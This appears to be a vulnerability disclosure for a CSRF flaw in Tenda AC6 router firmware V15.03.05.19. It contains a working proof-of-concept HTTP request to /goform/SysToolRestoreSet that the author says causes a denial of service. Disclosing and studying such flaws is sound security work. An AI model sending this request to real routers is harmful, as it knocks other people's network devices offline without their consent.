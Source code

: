 # Tenda AC6V1.0 V15.03.05.19 is vulnerable to Cross Site Request Forgery (CSRF) via function fromSysToolRestoreSet

## Description

`Tenda`  Router **AC6V1.0 V15.03.05.19** is vulnerable to Cross Site Request Forgery (CSRF) via function `fromSysToolRestoreSet`

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2681.html

## Affected version

![](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/fromSysToolRestoreSet` page，The details are shown below:

![image-20221121111658343](images/02.png)

![image-20221121111732242](images/03.png)

## POC

This POC can result in a Dos.

```
GET /goform/SysToolRestoreSet HTTP/1.1
Host: 192.168.204.133
Content-Length: 11525
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.204.133
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.204.133/system_hostname.asp?version=1487847846
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; password=jbl1qw; user=
Connection: close
```

![image-20221121111620471](images/04.png)